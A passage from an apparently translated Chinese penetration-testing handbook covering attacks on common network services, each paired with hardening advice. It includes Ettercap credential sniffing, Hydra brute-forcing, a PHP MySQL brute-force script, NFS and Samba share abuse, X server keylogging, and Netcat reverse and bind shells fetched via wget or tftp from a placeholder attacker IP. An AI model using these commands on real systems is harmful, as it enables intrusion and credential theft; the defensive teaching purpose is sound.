由于 POP3 是一种明文协议，因此可以嗅探在网络上传输的 POP3 数据。

## 嗅探 POP3 密码

可以使用诸如 `Ettercap` 的工具来嗅探网络上的 POP3 用户名和密码：

```bash
[h]$ ettercap -C -n -m
tercept 0.6.7 (c) 2002 ALoR & NaGA
Your IP: 192.168.1.1 with MAC: 00:01:1A:32:AB:32 on iface: eth0
Loading plugins... Done.
Resolving 1 hostnames...
* |==================================================================| 100.00 %
Press 'h' for help...
Sniffing (MAC based): ANY <---> ANY
```

TCP + UDP 数据包……（默认）

正在收集密码……

03:35:26 192.168.1.1:49565 <--> 10.0.0.1:110 pop3

```
USER: blanketman
PASS: b11113j34#
```

## 通过 SSH 隧道传输 POP3 流量

使用 SSH 的端口转发选项来安全地隧道传输 POP3 流量：

```
ssh -L110:127.0.0.1:110 username@pop3server.somecompanyasanexample.com
```

## 端口映射器：111 (TCP)

基于 RPC（远程过程调用）的服务，例如 `NFS`（网络文件系统），并不监听静态端口。这些服务会将其端口号注册到端口映射器（Portmapper）中。

> 可以使用 `rpcinfo` 命令查询已注册在端口映射器上的 RPC 服务：`rpcinfo -p hostname`。

### 配置错误

`NFS` 是一种协议，用于提供跨网络的共享文件远程访问。配置错误的 NFS 安装允许未经认证的用户访问存储关键或私有数据的网络共享。

## 查询并挂载远程 NFS 共享

使用 `showmount` 程序查询远程主机的 NFS 共享：

```
[bash]$ /usr/sbin/showmount --all sun1.somecompanyasanexample.com
All mount points on sun1.somecompanyasanexample.com:
all:/etc
```

在此示例中，`sun1.somecompanyasanexample.com` 被错误配置为向所有人共享其 `/etc` 目录。攻击者可以挂载 `/etc` 目录：

```
[bash]$ mount -t NFS sun1.somecompanyasanexample.com:/etc /mnt/etc
```

现在，攻击者可以通过发出以下命令来查看 `sun1.somecompanyasanexample.com` 的 `/etc/passwd` 文件：

```
cat /mnt/etc/passwd
```

## 阻止和加固 NFS

如果您的主机正在运行 NFS，请考虑以下建议：

- 如果未在使用，请考虑关闭 NFS。
- 配置您的防火墙以阻止 NFS 流量。NFS 运行在 `2049` 端口。
- 编辑 `/etc/dfs/dfstab` 和 `/etc/exports`，确保没有共享提供给未经授权的主机。

## 软件漏洞

RPC 服务容易受到许多可能导致远程系统被入侵的漏洞影响。以下漏洞说明了一些 RPC 服务的安全公告。

- **xdr_array 中的缓冲区溢出漏洞** 由于 `xdr_array()` RPC 中的缓冲区溢出漏洞，远程攻击者有可能在目标主机上执行任意代码。更多信息请参见 http://securityfocus.com/bid/5356。
- **xfsmd 中的远程命令执行漏洞** 此漏洞影响了 SGI IRIX 的实现。由于传递给 RPC 的参数未进行适当的清洗，攻击者可以嵌入诸如 `";"` 和 `"|"` 等元字符。这些参数随后被传递给 `popen()` 函数调用，使攻击者能够在目标机器上执行命令。详细信息请参见 http://securityfocus.com/bid/5075。
- **yppasswd 中的缓冲区溢出漏洞** 在 `yppasswd` 的实现中发现了由于边界检查不当而导致的缓冲区溢出漏洞。利用此漏洞可以以管理员权限在目标机器上执行命令。更多信息请参见 http://securityfocus.com/bid/2763。
- **statd 中的远程格式字符串漏洞** 此漏洞影响了随各种 Linux 发行版发行的 `rpc.statd` 程序。由于 `rpc.statd` 无法对用于调用 `syslog()` 函数的用户输入数据进行适当的输入验证，恶意用户可以提供特别构造的数据，使其在目标主机上执行。详细信息可在 http://securityfocus.com/bid/1480 获取。

因此，如果您的主机正在运行任何 RPC 服务，请考虑以下建议：

- 许多发行版在安装时启用了各种 RPC 服务。请禁用不需要的 RPC 服务。
- 如果不需要 RPC 服务，请禁用端口映射器（Portmapper）服务。
- 配置您的防火墙，不允许远程用户连接到 RPC 服务。

## NNTP（网络新闻传输协议）：119 (TCP)

NNTP 是用于新闻文章的分发、查询、检索和发布的协议。

### 暴力破解

许多 NNTP 服务器不需要身份验证。然而，可以使用 `Hydra` 等暴力破解工具来暴力破解需要身份验证的 NNTP 服务器。

## 暴力破解 NNTP

使用 `Hydra` 暴力破解 NNTP 账户。以下是如何做到这一点的一个示例：

```
hydra -L usernames.txt -P passwords.txt 10.0.0.1 nntp
```

## 防止 NNTP 暴力破解

请参见“针对暴力破解攻击的常见防御措施。”

### 嗅探

由于 NNTP 是一种明文协议，因此可以嗅探网络上传输的 NNTP 数据。

## 嗅探 NNTP 身份验证数据

`Ettercap` 等工具可用于嗅探网络上的 NNTP 流量。以下是如何使用 `Ettercap` 捕获 NNTP 身份验证数据的方法：

```
ettercap -C -N -m
```

## 通过 SSH 隧道传输 NNTP

使用 SSH 安全地隧道传输 NNTP 流量：

```
ssh username@remotenntpaserver.somecompanyasanexample.com -L119:127.0.0.1:119
```

## Samba：137 到 139 (TCP)

`Samba` 使用 `SMB`（服务器消息块）协议通过网络共享文件和打印机。SMB 最常用于 Microsoft Windows 操作系统。有关 Samba 项目的详细信息，请参见 http://www.samba.org/。

### 暴力破解

由于 Samba 使用用户名和密码对进行身份验证，因此可以暴力破解用户账户。

## 暴力破解 Samba

`Hydra` 可用于暴力破解 SMB 身份验证：


```
[bash]$ hydra -L usernames.txt -P passwords.txt 10.0.0.1 smb
Reduced number of tasks to 1 (smb does not like parallel connections) Hydra v2.2 (c) 2002 by van Hauser / THC - use allowed only for legal purposes.
Hydra is starting! [parallel tasks: 1, login tries: 2 (1.2/p:1)]
[139][smb] login: joe password: Sh4k331s0und!
Hydra finished.
```

# 防止 Samba 暴力破解

请参见“针对暴力破解攻击的常见防御措施。”

## 嗅探

可以嗅探在 Samba 身份验证过程中通过网络传输的密码哈希值。一旦捕获了哈希值，就必须对其执行暴力破解才能获取真实密码。

## 获取 Samba 密码哈希值

`Ettercap` 可用于捕获在身份验证期间通过网络发送的 Samba 哈希值。例如，以下是如何运行 `Ettercap` 以收集网络上传输的 SMB 密码哈希值：

```
ettercap -C -N -m
```

位于 `http://www.openwall.com/john/` 的密码破解工具，如 `John the Ripper`，可用于破解获取的哈希值。

## 安全地隧道传输 Samba 流量

请参见“阻止和隧道传输 Samba 流量。”

## Samba 配置错误

`Samba` 经常被错误配置为共享包含关键数据的文件系统。远程用户可以利用此类漏洞获取位于受害主机上的敏感系统文件。

## 枚举并挂载远程 Samba 共享

使用 `Samba` 的 `smbclient` 命令查询远程系统导出的文件共享：

```
$ smbclient -L smbserver -I 192.168.1.10 -U '' ''
added interface ip=192.168.1.1 bcast=192.168.1.255 nmask=255.255.255.0
Password for [enter]:
Domain=[SOMECOMPANY]  OS=[Unix]  Server=[Samba 2.2.7]
```

| 共享名 | 类型 | 注释 |
|---|---|---|
| IPC$ | IPC | IPC 服务 (.) |
| ADMIN$ | Disk | IPC 服务 (.) |
| etc | Disk | 配置文件 |
| 服务器 | 注释 |
| SMBSERVER | SomeCompanyAsAnExample |
| SAMBASERVER | |
| 工作组 | 主控 |
| SOMECOMPANY | WMASTER |

现在，由于前面的服务器显然被错误配置为向全世界提供 `/etc` 目录，因此可以使用以下 `mount` 命令进行挂载：

```
mount -t smbfs -o username='' //192.168.1.10/etc /mnt/smbshare
```

挂载 `/etc` 共享后，入侵者可能会获取 `/etc/passwd` 文件，该文件将作为 `/mnt/smbshare/passwd` 出现在其主机上。

## 阻止和隧道传输 Samba 流量

如果正在运行 `Samba`，请考虑以下建议：

- 配置您的防火墙以阻止 `Samba` 流量。
- 考虑使用 `SSH` 来隧道传输 `Samba` 流量：

```
ssh username@remoteSmbServer.somecompanyasanexample.com -L139:127.0.0.1:139
```

## IMAP2/IMAP4（Internet Message Access Protocol 2/4，互联网消息访问协议 2/4）：143（TCP）

`IMAP2/4` 是一种电子邮件访问协议，用于从邮件服务器访问电子邮件。其特点包括能够在远程位置存储电子邮件。

- **暴力破解**：`IMAP` 身份验证易受暴力破解攻击。

### 暴力破解 IMAP

可以使用 `Hydra` 对 `IMAP` 进行暴力破解：

```bash
$ hydra -L usernames.txt -P passwords.txt -s 143 192.168.1.1 imap
Hydra v2.2 (c) 2002 by van Hauser / THC - use allowed only for legal purposes.
Hydra is starting! [parallel tasks: 4, login tries: 4 (1:1/p:4)]
[143][imap] login: pardezi  password: estd1948!!
Hydra finished.
```

### 防止 IMAP 暴力破解

请参阅“暴力破解攻击的通用防御措施”。

- **嗅探**：有可能嗅探通过网络传输的 `IMAP` 流量。

### 嗅探 IMAP 流量

`Ettercap` 和 `Ethereal` 等网络嗅探工具可用于捕获网络上传输的 `IMAP` 数据。

### 安全替代方案

如果正在使用 `IMAP`，请考虑执行以下建议：

- 使用 `SSH` 为 `IMAP` 流量创建隧道：

```bash
ssh -L143:127.0.0.1:143
username@imapserver.somecompanyasanexample.com
```

- 使用 `IMAPS` 作为 `IMAP` 的安全替代品。

## HTTPS（Secure Hypertext Transfer Protocol，安全超文本传输协议）：443（TCP）

`HTTPS` 是建立在 `SSL`（Secure Sockets Layer，安全套接字层）之上的 `HTTP`。`HTTPS` 使用 `SSL` 来建立和维护安全通道，从而在客户端和服务器之间提供加密通信。

可以使用命令行 `openssl` 工具连接到 `HTTPS` 服务器：

`openssl s_client -connect:server_ipaddress:443`

`OpenSSL` 可从 `<http://www.openssl.org>` 获取。

- **软件漏洞**：以下段落代表了一个近期的 `OpenSSL` 漏洞：
  - **OpenSSL SSLv2 缓冲区溢出**：`OpenSSL` 是 `SSL` 协议的开源实现。发现 `0.9.6e` 之前的 `OpenSSL` 版本存在缓冲区溢出漏洞，这可能导致在服务器上执行任意代码。详情请参阅 `<http://www.kb.cert.org/vuls/id/102795>`。

## rexec：512（TCP）

可以使用 `rexec` 命令在远程主机上运行命令并显示其输出。由于 `rexec` 使用与 `rlogin` 类似的机制，请参阅以下“rlogin: 513 (TCP)”章节。

## rlogin：513（TCP）

`rlogin` 命令用于与远程主机建立终端会话。

- **暴力破解**：由于需要用户名和密码组合来通过 `rlogin` 进行身份验证，因此可以使用 `Hydra` 等暴力破解工具。
- **嗅探**：`rlogin` 服务使用明文协议。`Ettercap` 或 `Ethereal` 等网络嗅探工具可用于嗅探网络上的 `rlogin` 流量。
- **rlogin 错误配置**：为了便于无密码登录，用户可能需要在主目录中放置一个名为 `.rhosts` 的文件，内容如下：

`mukumouse.somecompanyasanexample.com jack`

这将允许来自 `mukumouse.somecompanyasanexample.com` 的用户 `jack` 无需密码即可 `rlogin` 到放置上述 `.rhosts` 文件的主机上的其账户。

### .rhosts 错误配置

考虑用户主目录中内容如下 `.rhosts` 文件：

`+ +`


这样的文件允许任何主机的任何用户无需密码登录到该用户的账户。

> 在远程账户被攻陷后，入侵者可能会在受害者的主目录中放置一个内容为“+ +”的 `.rhosts` 文件，正如刚刚所示。这使得入侵者能够持续访问受害者的账户。此外，由于 `.rhosts` 文件以句点开头，当受害者用户使用 `ls` 命令进行目录列表时，该文件不会显示出来（除非用户在 `ls` 命令中指定了 `-a` 标志）。

## 禁用 rlogin 并考虑替代方案

如果正在运行 `rlogin` 服务，请考虑以下建议：

- 通过在 `inetd.conf` 文件中注释掉相应的行来禁用 `rsh`、`rlogin` 和 `rexec` 服务。
- 考虑使用 `SSH` 作为安全替代品。

### rsh：514（TCP）

`rsh` 命令用于在远程机器上执行命令。由于 `rsh` 使用与 `rlogin` 类似的机制，请参阅前面的“`rlogin`: 513 (TCP)”章节。

### NNTPS（Secure Network News Transfer Protocol，安全网络新闻传输协议）：563（TCP）

`NNTPS` 是建立在 `SSL`（Secure Sockets Layer，安全套接字层）之上的 `NNTP`。`NNTPS` 使用 `SSL` 来建立和维护安全通道，从而在客户端和服务器之间提供加密通信。

可以使用命令行 `openssl` 工具连接到 `NNTPS` 服务器：

```
openssl s_client -connect:192.168.1.1:563
```

`OpenSSL` 可从 <http://www.openssl.org/> 获取。

请参阅“`NNTP` (Network News Transfer Protocol): 119 (TCP)”以获取更多详细信息。

### IMAPS（Secure Internet Message Access Protocol，安全互联网消息访问协议）：993（TCP）

`IMAPS` 是建立在 `SSL`（Secure Sockets Layer，安全套接字层）之上的 `IMAP`。`IMAPS` 使用 `SSL` 来建立和维护安全通道，从而在客户端和服务器之间提供加密通信。

可以使用命令行 `openssl` 工具连接到 `IMAPS` 服务器：

```
openssl s_client -connect:192.168.1.1:993
```

`OpenSSL` 可从 <http://www.openssl.org/> 获取。

请参阅前面的章节“`IMAP2/IMAP4` (Internet Message Access Protocol 2/4): 143 (TCP)”以获取更多详细信息。

### POP3S（Secure Post Office Protocol 3，安全邮政协议 3）：995（TCP）

`POP3S` 是建立在 `SSL`（Secure Sockets Layer，安全套接字层）之上的 `POP3`。`POP3S` 使用 `SSL` 来建立和维护安全通道，从而在客户端和服务器之间提供加密通信。

可以使用命令行 `openssl` 工具连接到 `POP3S` 服务器以获取横幅信息：

```
openssl s_client -connect:192.168.1.1:995
```

`OpenSSL` 可从 <http://www.openssl.org/> 获取。

请参阅前面的章节“`POP3` (Post Office Protocol 3): 110 (TCP)”以获取更多详细信息。

### NFS：2049（TCP 和 UDP）

请参阅前面的章节“`Portmapper`: 111 (TCP)”。

### MySQL：3306（TCP）

`MySQL` 是一个流行的开源数据库软件包。可从 <http://www.mysql.com> 获取。

- **暴力破解**：由于 `MySQL` 使用用户名和密码对进行身份验证，因此可以尝试对其进行暴力破解攻击。

#### 暴力破解 MySQL

以下 `PHP` 脚本可用于对 `MySQL` 服务器进行暴力破解：

```php
<?php
/**Author: Nitesh Dhanjani [ hacknotes@dhani.com ]
This script attempts a brute-force attack on MySQL servers. Please make sure $usernamefile and $passwordfile are set to filenames containing usernames and passwords to attempt.*/

$usernamefile="usernames.txt";
$passwordfile="passwords.txt";

if($argc != 2)
(
    print "Usage: $argv[0] hostname\n";
    exit();
)

$uFilehandle=@fopen($usernamefile,"r");
$pFilehandle=@fopen($passwordfile,"r");

if ((!$uFilehandle)||(!$pFilehandle))
{
    print("Could not open username or password file.\n");
    exit();
}

while($username=@fscanf($uFilehandle,"%s\n"))
{
    while($password=@fscanf($pFilehandle,"%s\n"))
        if(@mysql_connect ($argv[1],$username[0],$password[0]))
            print("SUCCESS! : $username[0], $password[0]\n");
}

print("DONE\n");
?>
```

让我们将上述文件称为 `mssqlbrute.php`。以下是该脚本的一个使用示例：

```bash
$ php -f mssqlbrute.php msql.somecompanyasanexample.com
SUCCESS!: root, sqlMyP455!
DONE
```

`PHP` 编程语言解释器可从 <http://www.php.net/> 下载。

#### 防止 MySQL 暴力破解

请参阅*“暴力破解攻击的通用防御措施”*。

- **嗅探**：`MySQL` 使用明文协议来建立客户端和服务器之间的连接。因此，网络段上的用户可以嗅探 `MySQL` 会话。

#### 嗅探 MySQL 流量

可以使用 `Ettercap` 捕获认证过程中通过网络发送的 `MySQL` 哈希值（图 4-1）。此外，由于 `MySQL` 使用明文机制传输数据，因此可以监视用户会话

#### 远程服务



**图 4-1.** 可以使用 `Ethereal` 捕获 `MySQL` 会话。

使用网络分析器，例如 `Ettercap` 或 `Ethereal`。`Ethereal` 可从 http://www.ethereal.com/ 下载。

#### 封锁并加固 MySQL

如果您在主机上运行 `MySQL` 服务器，请考虑以下建议：

- 配置防火墙以阻止传入的 `MySQL` 服务器连接。在大多数情况下，只需本地 `MySQL` 访问即可。
- 加固 `MySQL` 配置，使其不接受来自远程用户的连接。有关详细指令，请参阅 http://www.mysql.com/documentation/mysql/bychapter/manual_MySQL_Database_Administration.html#Privilege_system。

### VNC (Virtual Network Computing)：5800+，5900+ (TCP)

`VNC` 是一种远程控制软件包，允许访问远程主机的桌面。`VNC` 是免费软件，可从 http://www.realvnc.com/ 下载。

**暴力破解** `VNC` 实例仅需密码即可进行身份验证。因此，`VNC` 账户可以远程暴力破解。

#### 暴力破解 VNC

可以使用位于 http://www.phoenixit.de/vncrack/ 的 `vncrack` 工具尝试对 `VNC` 进行暴力破解攻击。

```bash
$ vncrack -h 10.0.0.1 -w passwords.txt
```

`VNCrack` – 由 `PhoenixIT` 开发 (http://www.phoenixit.de/)

$Revision: 1.17 $

```text
>>>>>>>>>>>>> >>
Password: test123
```


此外，还可以暴力破解包含 VNC 密码哈希的 VNC 用户 `~/.vnc/passwd` 文件：

```bash
$ vncrack -c ~/.vnc/passwd
VNC password: test123
```

## 防止 VNC 暴力破解

请参阅“针对暴力破解攻击的常见防御措施”。

**嗅探** 可以嗅探通过传输网络传输的 VNC 密码哈希。一旦获得密码哈希，必须暴力破解才能揭示真实密码。

## 嗅探并破解 VNC 密码

使用 Ettercap 获取服务器质询哈希和客户端响应哈希：

```bash
$ ettercap -C -m -R

ettercap 0.6.9 (c) 2002 ALoR & NaGA

Your IP: 192.168.1.1 with MAC: 00:30:23:C1:00:00 on iface: eth0

Loading plugins... Done.
Building host list for netmask 255.255.255.0, please wait...

Resolving 1 hostnames...

^ |====================================================================| 100.00 %

Press 'h' for help...

Sniffing (MAC based): ANY <--> ANY

TCP + UDP packets... (default)

Collecting passwords...

10:04:28 192.168.1.1:6612 <--> 10.0.0.1:5901 VNC
```

```text
USER:  On display :0
PASS:
Server Challenge: 612b8f9e6dfe71ba27abff77ff99c106 Client 3DES:
4e2568a12e5e7825addbdff4d5190fd6
```

现在，使用前面讨论过的 `vncrack` 工具破解获得的哈希值：

```bash
$ vncrack -v -c 612b8f9e6dfe71ba27abff77ff99c106 -r 4e2568a12e5e7825addbdff4d5190fd6 -w passwords.txt
vncrack - by PhoenixIT (http://www.phoenixit.de/) $Revision: 1.17 $
Challenge: 612b8f9e6dfe71ba27abff77ff99c106
Response : 4e2568a12e5e7825addbdff4d5190fd6

>>>>>>>>>>>>>>>>
Password: test123
```

VNC 查看器和 VNC 服务器之间的主动流量未加密，网络段中的某人可以嗅探这些流量。然而，目前不存在已知工具能够解密通过传输网络传输的主动 VNC 流量。

## 通过 SSH 安全隧道传输 VNC 流量

使用 SSH 安全隧道传输 VNC 流量。详情请参阅 http://www.uk.research.att.com/vnc/sshvnc.html。

**VNC 配置错误** 可以设置 VNC 身份验证的空密码。许多用户选择设置空密码，这使入侵者能够完全控制他们的桌面。

**软件漏洞** 已知 VNC 软件存在几个漏洞。以下是最近宣布的几个漏洞列表。

- **TightVNC 服务器身份验证 Cookie 可预测性漏洞** `vncserver` 程序本身是一个负责生成随机 X 服务器身份验证 cookie 的 PERL 脚本。在 TightVNC 的 `vncserver` 实现中发现了一个漏洞，导致其生成可预测的身份验证 cookie。这种状况使攻击者有可能预测与远程 VNC 服务器身份验证所需的响应。详情请参阅 http://securityfocus.com/bid/6905。

- **TightVNC 重复质询重放攻击漏洞** VNC 身份验证机制使用质询-响应方案以成功身份验证用户。这导致 VNC 客户端每次用户身份验证时发送不同的密码哈希。在 TightVNC 软件中发现的漏洞导致 VNC 服务器请求类似的质询-响应。这使得网络段上的恶意用户可以复用先前获得的密码哈希来身份验证为另一个用户。更多信息请访问 http://securityfocus.com/bid/5296。

## X：6000 到 6063 (TCP)

X 窗口系统是一种网络透明窗口系统，用于各种操作系统。它最常用于为 Unix 和 Linux 操作系统提供图形前端。

**X 配置错误** `xhost` 程序用于向允许连接 X 服务器的主机列表中添加和删除主机名。这提供了基本的隐私控制和安全性。

### 滥用配置错误的 X 服务器

考虑 10.0.0.1 上使用 `xhost` 允许来自 192.168.1.3 连接的用户：

```bash
$ xhost +192.168.1.3
192.168.1.3 being added to access control list
```

现在，192.168.1.3 上拥有账户的任何用户都可以启动 X 程序并将其显示在 10.0.0.1 上运行的 X 服务器上。然而，以下命令将导致 X 服务器允许任何主机连接：

```bash
$ xhost +
access control disabled, clients can connect from any host.
```

考虑 192.168.1.3 上发出以下命令的恶意用户：

```bash
xwd -display 10.0.0.1:0 -root > screenshot.xwd
```

该命令将创建一个名为 `screenshot.xwd` 的图像文件，其中包含 10.0.0.1 用户 X 会话的屏幕截图（见图 4-2）。可以使用 `xwdc` 命令查看 `screenshot.xwd` 文件：

```bash
xwdc -in screenshot.xwd
```



**图 4-2.** 由 `xwd` 工具捕获的受害者 X 会话

可以使用 `xscan` 命令记录已发出 `xhost` 命令的远程主机的击键：

```bash
$ xscan 10.0.0.1
Scanning hostname 10.0.0.1 ...
Connecting to 10.0.0.1 (10.0.0.1) on port 6000...
Connected.
Host 10.0.0.1 is running X.
Starting keyboard logging of host 10.0.0.1:0.0 to file
KEYLOG10.0.0.1:0.0...
```

该 `xscan` 命令将导致 10.0.0.1 上用户的所有击键记录到文件 `KEYLOG10.0.0.1.0`。您可以从 http://packetstormsecurity.org/ 获取 `xscan`。

还有许多其他工具可供恶意用户利用用户发出 `xhost` 命令以允许其他主机连接的情况。以下是几个此类工具的列表：

- `xwatchwin` 实时显示远程用户 X 会话中的任何窗口。**xwatchwin** 工具可在 http://packetstormsecurity.org/ 下载。

- `xremote` 允许您将鼠标和键盘事件发送到远程 X 会话。此工具可从 http://www.infa.abo.fi/~chakie/xremote/ 下载。

- `xkey` 记录远程用户 X 会话的击键，类似于 `xscan`。它可在 http://packetcats.com/security/ 获取。

### 封锁并隧道 X

建议以下措施供运行 X 服务器的用户参考：

- 在防火墙上封锁 6000 到 6063 端口。这将禁用外部主机连接到内部 X 服务器。

- 使用 SSH 安全隧道传输 X 流量：

  `ssh -X username@remotexserver.somecompanyasanexample.com`

## Web 代理：8000+ TCP

正如名字所示，Web 代理用于代理 HTTP 和 HTTPS 流量。

**Web 代理配置错误** 可以利用此处描述的方法来滥用 Web 代理配置错误。我们将使用 `desproxy` 命令行工具，它使用 HTTP/1.1 支持的 CONNECT 方法通过 Web 代理建立 TCP 连接。它可从 http://desproxy.sourceforge.net/ 下载。

### 代理攻击

配置错误的 Web 代理通常允许入侵者进行代理攻击。考虑以下 `desproxy` 命令：

```bash
desproxy 10.0.0.1 23 192.168.1.1 8000 2300
```


发出此命令后，如果入侵者通过其自身主机（`127.0.0.1`）`telnet` 到端口 `2300`，他/她将经由监听端口 `8000` 的易受攻击的 Web 代理（`192.168.1.1`）连接到 `10.0.0.1` 的 `telnet` 端口（`23`）。由于受害者主机仅记录来自 Web 代理 IP 地址 `192.168.1.1` 的传入连接，攻击者将成功滥用 Web 代理来代理其攻击。

> 如果入侵者已经控制了内部网络上不允许出站 TCP 连接的主机，入侵者可以使用 `desproxy` 通过可用的 Web 代理在外部主机上建立 TCP 连接。

## 反向代理攻击

通常，配置不当的 Web 代理可用于建立与 Web 代理主机可访问的内部网络中存在的宿主机的连接。在之前的示例中，假设 `10.0.0.1` 是一个只能从 Web 代理（`192.168.1.1`）所在内部网络访问的主机的 IP 地址。因此，该示例中的命令将允许攻击者通过存在漏洞的 Web 代理连接到内部主机的 `telnet` 端口。


## 阻止入站连接

配置防火墙规则以阻止针对组织 Web 代理的入站连接。

## 应用程序漏洞

应用程序也易受漏洞影响，这些漏洞可能导致运行客户端应用程序的主机被远程攻陷。然而，此类漏洞很难被远程利用。虽然不可能列出所有已知存在远程利用风险的应用程序，但这些漏洞文档记录了一些易受远程攻陷的知名应用程序。


### tcpdump 中畸形 NFS 和 BGP 数据包缓冲区溢出漏洞

`tcpdump` 程序是最广泛使用的命令行数据包分析器。在 `tcpdump` 处理畸形 NFS（网络文件系统）数据包时发现了一个缓冲区溢出漏洞。当恶意 NFS 数据包被有意通过网络发送时，该漏洞使得在运行 `tcpdump` 的主机上执行任意指令成为可能。详情请参阅 http://securityfocus.com/bid/4890。

另一个 `tcpdump` 漏洞是由于对畸形 BGP 数据包处理不当而存在的。更多信息请参阅 http://securityfocus.com/bid/6213。


### Netscape/Mozilla POP3 邮件处理器整数溢出漏洞

当 POP3 服务器发送恶意数据时，该漏洞会导致 Netscape/Mozilla 浏览器的邮件客户端发生缓冲区溢出状况。如果攻击者获取了对 POP3 服务器的控制权，他或她可以让 POP3 服务器以恶意数据响应，从而在 Netscape/Mozilla 用户的主机上执行任意命令。更多信息可在 http://securityfocus.com/bid/6254 获取。

### BitcX 远程堆破坏漏洞

BitcX 是一款流行的 IRC（互联网中继聊天）客户端。当向 BitcX 客户端提供长主机名时，观察到内存破坏状况。恶意 IRC 服务器可以利用此漏洞在运行 BitcX 的主机上执行命令。有关此漏洞的信息可在 http://securityfocus.com/bid/7096 获取。

### PGP4Pine 长消息行缓冲区溢出漏洞

PGP4Pine 为 Pine 电子邮件客户端添加了 PGP 支持。在 PGP4Pine 中发现了一个漏洞，该漏洞是由于对包含 PGP 数据的电子邮件进行边界检查不足而引发的。攻击者可以发送精心制作的恶意电子邮件来利用此漏洞，以便在运行 PGP4Pine 的主机上执行任意命令。详情请参阅网站 http://securityfocus.com/bid/7071 以获取更多详细信息。

### 防止应用程序漏洞利用

为了降低对应用程序漏洞的易感性，建议采取以下措施：

- 保持软件补丁的最新状态。
- 订阅漏洞观察列表，例如 Bugtraq。（访问 http://securityfocus.com/cgi-bin/sfonline/subscribe.pl 以获取更多信息。请参阅本书参考中心中的“在线资源”部分，以查找指向许多其他安全资源的指针。）

## NESSUS

审计大量主机是否存在远程漏洞是一项非常繁重的工作。Nessus 是一款安全扫描器，可用于对一组目标主机运行远程漏洞的自动化检查（参见图 4-3）。虽然如今市面上有许多商用网络扫描器，但值得一提 Nessus 是免费的、开源的、可靠的且非常灵活。扫描完成后，Nessus 会为客户端提供美观的漏洞报告，这些报告可以保存为各种格式，包括 HTML。Nessus 可在 http://www.nessus.org/ 获取。

Nessus 旨在支持客户端/服务器架构。Nessus 服务器（`*nessusd*`）负责对目标主机执行漏洞检查。Nessus 客户端程序（`*nessus*`）可用于连接服务器以配置和生成检查任务。Nessus 客户端和服务器之间的通信是加密的。

由于 Nessus 的设计非常模块化，编写自己的安全检查非常容易。Nessus 安全检查可以使用 C 编程语言或 Nessus 自己的 NASL（Nessus 攻击脚本语言）编写。有关 NASL 的详细信息，请参阅第 10 章。



**图 4-3. 正在运行的 Nessus**

## 获取 Shell

一旦攻击者成功利用远程服务或应用程序，通过在受害主机上远程执行任意命令，他或她将希望获取远程 shell，以继续利用受害主机。

### 使用 Netcat 获取远程 Shell

可以采取以下步骤来获取远程 shell：

### 1. 上传 Netcat

Netcat 可用于通过网络发送远程 shell。首先，你必须将 Netcat 放置在存在漏洞的主机上。这可以通过在受害主机上执行以下 `tftp` 命令来完成：

```
tftp -i attacker's_ip_address nc
```

当然，为了使上述上传成功，攻击者必须运行一个可访问的 TFTP 服务器，并在 TFTP 主目录（通常是 `/tftpboot`）中放置一个 Netcat 二进制文件。

除了 TFTP，还可以在受害机器上执行 `wget` 工具，以获取放置在攻击者 Web 服务器上的 Netcat 二进制文件：

```
wget http://attacker's_ip_address/nc
```

或者，攻击者可以使用 FTP 命令行客户端将 Netcat 二进制文件上传到受害主机：

```
ftp -n ftpscript
```

其中 `ftpscript` 是一个包含以下内容的文本文件：

```
open attacker's_ftp_server_ip_address
user user_on_attacker's_ftp_server user_password
bin
get nc
bye
```

可以通过在存在漏洞的主机上运行以下 `echo` 命令来创建该 `ftpscript`：

```
echo open attacker's_ftp_server_ip_address > ftpscript; echo user user_on_attacker's_ftp_server user_password >> ftpscript; echo bin >> ftpscript; echo get nc >> ftpscript; echo bye >> ftpscript
```

### 2. 使用 Netcat

一旦 Netcat 被放置在受害者的机器上，它就可以用于在任意端口上监听，并在连接建立时提供 shell：

```
./nc -e /bin/sh -l -p 9999
```

现在，攻击者只需连接到受害者的 9999 端口即可接收命令 shell：

```
nc victim's_ip_address 9999
```

还可以指示 Netcat 连接到入侵者的端口，以提供命令 shell。首先，攻击者必须在某个端口上监听：

```
nc -v -n -l -p 9999
```

现在，必须在受害者的主机上执行以下操作：

```
./nc -e /bin/sh attacker's_ipaddress 9999
```


> Netcat 默认不启用 `-e` 选项，该选项用于在建立连接后执行程序。如果你想让 Netcat 支持 `-e` 标志，必须使用 `-DGAMPING_SECURITY_HOLE` 标志编译 Netcat。请记住在将 Netcat 二进制文件上传到受害者主机之前执行此操作。


## 使用 xterm 获取远程 Shell

如果受害主机安装了 `xterm` 等 X 终端客户端软件，攻击者可以执行它来获取远程 shell：

```
xterm -display attacker's_ip_address:0.0 &
```

此命令将导致在受害主机上执行 `xterm` 的一个实例，并显示在攻击者的 X 服务器上。当然，攻击者必须首先运行以下命令以允许 `xterm` 在其 X 服务器上显示：

```
xhost +victim's_ip_address
```


## 防止攻击者获取远程 Shell

以下是一些你可以采取的步骤，以使入侵者难以获取远程 shell：

- 配置防火墙以阻止所有未使用的端口。此外，收紧防火墙规则以限制出站连接。例如，专门用作 Web 服务器的主机不应被允许在任何端口上发起出站连接。
- 从生产主机上卸载 `telnet`、`ftp`、`wget` 和 `tftp` 等客户端软件。
- 从生产主机上卸载 X 程序和库。

## 端口重定向

端口重定向技术可用于绕过薄弱的防火墙规则，连接那些运行在被防火墙过滤端口上的服务。为了促进端口重定向，我们将使用 `Zebedee`，这是一个可用命令行工具，可从 http://www.winton.org.uk/zebedee/ 获取。假设 `Zebedee` 在受害机器上可用。如果没有，请使用前面“上传 Netcat”部分中描述的方法将 `Zebedee` 二进制文件上传到受害主机。

